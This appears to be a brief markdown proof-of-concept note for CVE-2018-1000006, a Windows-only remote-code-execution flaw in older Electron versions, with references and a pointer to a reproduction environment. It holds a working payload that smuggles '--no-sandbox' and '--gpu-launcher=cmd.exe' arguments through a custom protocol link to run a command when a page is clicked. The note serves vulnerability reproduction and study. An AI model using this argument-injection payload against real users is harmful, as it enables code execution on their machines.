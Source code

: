 # Electron<v.1.8.2-beta.4 RCE - CVE-2018-1000006 only for windows

## Reference
* [https://xianzhi.aliyun.com/forum/topic/1990](https://xianzhi.aliyun.com/forum/topic/1990)
* [https://electronjs.org/blog/protocol-handler-fix](https://electronjs.org/blog/protocol-handler-fix)

## Payload
```
chybeta://?" "--no-sandbox" "--gpu-launcher=cmd.exe /c start calc
当用户点击poc.html会执行命令
```
## 复现

* p师傅的项目里面有复现环境，git地址[https://github.com/vulhub/vulhub.git](https://github.com/vulhub/vulhub.git)


